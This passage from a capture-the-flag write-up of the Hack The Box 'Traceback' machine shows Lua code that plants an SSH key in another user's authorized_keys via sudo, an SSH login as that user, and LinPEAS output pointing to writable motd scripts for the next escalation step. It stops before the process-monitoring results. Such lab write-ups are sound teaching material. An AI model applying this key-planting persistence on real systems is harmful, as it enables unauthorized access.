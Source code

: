 Looking at the documentation for Lua script, writing to a file is fairly simple and we can adapt the code to append the public key to the authorized\_keys file:

```python
file = io.open("/home/sysadmin/.ssh/authorized_keys","a")
io.output(file)
io.write("ssh-rsa … =")
```

We can then run this script:

```bash
webadmin@traceback:/dev/shm$ sudo -u sysadmin /home/sysadmin/luvit test.lua
```

And then SSH onto the machine as sysadmin:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Traceback]
└──╼ $ssh -i sysadmin sysadmin@traceback.htb
The authenticity of host 'traceback.htb (10.129.1.189)' can't be established.
ECDSA key fingerprint is SHA256:7PFVHQKwaybxzyT2EcuSpJvyQcAASWY9E/TlxoqxInU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'traceback.htb,10.129.1.189' (ECDSA) to the list of known hosts.
#################################
-------- OWNED BY XH4H ---------
I guess stuff could have been configured better ^^ -
#################################
Welcome to Xh4H land
Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ whoami
sysadmin
```

Now that we are sysadmin and have got the flag in /home/sysadmin/user.txt, we can run LinPEAS again as the sysadmin user. This will generate different output because as sysadmin, we will have different privileges than webadmin. You can see this when looking at the output and the sudo -l command returns nothing whereas it did when we were webadmin. Running linpeas.sh again and looking through the output, we get a highly exploitable vulnerability flagged:

```bash
[+] Interesting GROUP writable files (not in Home) (max 500)
[i] 
https://book.hacktricks.xyz/linux-unix/privilege-escalation#w

ritable-files
Group sysadmin:
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/webadmin/note.txt
```

Before we investigate this more, let us use another tool to enumerate processes called pspy64 \([https://github.com/DominicBreuker/pspy\](https://github.com/DominicBreuker/pspy\)\). This will monitor processes and highlight when new processes run. When running it on Traceback, we see that every minute a set of processes run:
